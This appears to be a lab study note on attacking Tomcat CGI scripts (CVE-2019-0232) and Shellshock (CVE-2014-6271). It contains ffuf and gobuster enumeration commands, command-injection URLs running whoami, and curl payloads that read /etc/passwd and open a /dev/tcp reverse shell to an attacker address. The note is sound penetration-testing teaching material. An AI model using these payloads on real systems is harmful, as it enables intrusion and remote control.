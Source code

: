 # **Attacking Tomcat CGI**

## **Finding a CGI script - Using FFuF**

### **Fuzzing Extentions - .CMD**

```bash
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.cmd
```

### **Fuzzing Extentions - .BAT**

```bash
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.bat
```

## **Exploitation -** CVE-2019-0232 (W**indows)**

```bash
http://10.129.204.227:8080/cgi/welcome.bat?&dir
```

If this command does not return anything, you can try retrieving a list of environmental variables by calling the `set` command:

```
# http://10.129.204.227:8080/cgi/welcome.bat?&set

Welcome to CGI, this section is not functional yet. Please return to home page.
AUTH_TYPE=
COMSPEC=C:\Windows\system32\cmd.exe
CONTENT_LENGTH=
CONTENT_TYPE=
GATEWAY_INTERFACE=CGI/1.1
HTTP_ACCEPT=text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
HTTP_ACCEPT_ENCODING=gzip, deflate
HTTP_ACCEPT_LANGUAGE=en-US,en;q=0.5
HTTP_HOST=10.129.204.227:8080
HTTP_USER_AGENT=Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
PATHEXT=.COM;.EXE;.BAT;.CMD;.VBS;.JS;.WS;.MSC
PATH_INFO=
PROMPT=$P$G
QUERY_STRING=&set
REMOTE_ADDR=10.10.14.58
REMOTE_HOST=10.10.14.58
REMOTE_IDENT=
REMOTE_USER=
REQUEST_METHOD=GET
REQUEST_URI=/cgi/welcome.bat
SCRIPT_FILENAME=C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi\welcome.bat
SCRIPT_NAME=/cgi/welcome.bat
SERVER_NAME=10.129.204.227
SERVER_PORT=8080
SERVER_PROTOCOL=HTTP/1.1
SERVER_SOFTWARE=TOMCAT
SystemRoot=C:\Windows
X_TOMCAT_SCRIPT_PATH=C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi\welcome.bat
```

`PATH` variable has been unset, so we will need to hardcode paths in requests:

```bash
http://10.129.204.227:8080/cgi/welcome.bat?&c:\windows\system32\whoami.exe
```

Or with URL Encoding

```bash
http://10.129.204.227:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
```

# **Attacking CGI Applications - Shellshock**

CGI scripts and programs are kept in the `/CGI-bin` directory on a web server

![image.png](../../Images/CGI_image.png)

- A directory is created on the web server containing the CGI scripts/applications. This directory is typically called `CGI-bin`.
- The web application user sends a request to the server via a URL, i.e, https://acme.com/cgi-bin/newchiscript.pl
- The server runs the script and passed the resultant output back to the web client

## **Shellshock via CGI (**CVE-2014-6271)

The Shellshock vulnerability allows an attacker to exploit old versions of Bash that save environment variables incorrectly. 

### **Enumeration - Gobuster**

```bash
gobuster dir -u http://10.129.204.231/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi

===============================================================
2023/03/23 09:26:04 Starting gobuster in directory enumeration mode
===============================================================
/access.cgi           (Status: 200) [Size: 0]
                                             
===============================================================
2023/03/23 09:26:29 Finished
```

### **Confirming the Vulnerability**

```bash
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.204.231/cgi-bin/access.cgi
```

### **Exploitation to Reverse Shell Access**

```bash
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.38/7777 0>&1' http://10.129.204.231/cgi-bin/access.cgi
```
